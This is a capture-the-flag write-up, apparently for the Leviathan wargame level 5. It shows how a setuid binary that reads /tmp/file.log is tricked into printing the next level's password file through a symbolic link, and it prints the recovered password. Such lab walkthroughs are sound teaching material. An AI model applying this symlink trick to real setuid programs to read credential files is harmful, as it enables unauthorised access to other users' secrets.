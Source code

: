 **`leviathan5@gibson:~$ ls -la`**  
```
total 36
drwxr-xr-x  2 root       root        4096 Jan  8 17:07 .
drwxr-xr-x 83 root       root        4096 Jan  8 17:08 ..
-rw-r--r--  1 root       root         220 Jan  6  2022 .bash_logout
-rw-r--r--  1 root       root        3771 Jan  6  2022 .bashrc
-r-sr-x---  1 leviathan6 leviathan5 15132 Jan  8 17:07 leviathan5
-rw-r--r--  1 root       root         807 Jan  6  2022 .profile
```

Looks like yet another setuid binary, this time owned by user `leviathan6`. Checking the library calls:

**`leviathan5@gibson:~$ ltrace ./leviathan5`**  
```
__libc_start_main(0x8049206, 1, 0xffffd5f4, 0 <unfinished ...>
fopen("/tmp/file.log", "r")                                                                                                                        = 0
puts("Cannot find /tmp/file.log"Cannot find /tmp/file.log
)                                                                                                                  = 26
exit(-1 <no return ...>
+++ exited (status 255) +++
```

The setuid binary uses `fopen()` to open and read a file located at /tmp/file.log; however, if it can't read the file, it prints that it cannot find /tmp/file.log. Let's confirm the file doesn't exist: 

**`leviathan5@gibson:~$ cat /tmp/file.log`**  
*`cat: /tmp/file.log: No such file or directory`*  

Nice. Since the binary is owned by user `leviathan6`, we can use its permissions on files that `leviathan6` would have access to (hint: like the password file); however, the usage of the binary is set such that it will only open and read /tmp/file.log, which doesn't even exist yet. We can use this to our advantage by creating the file, and more rigorously, as a symbolic link to the leviathan6 password file:

**`leviathan5@gibson:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log`**  
**`leviathan5@gibson:~$ ./leviathan5`**  
*`YZ55XPVk2l`*  
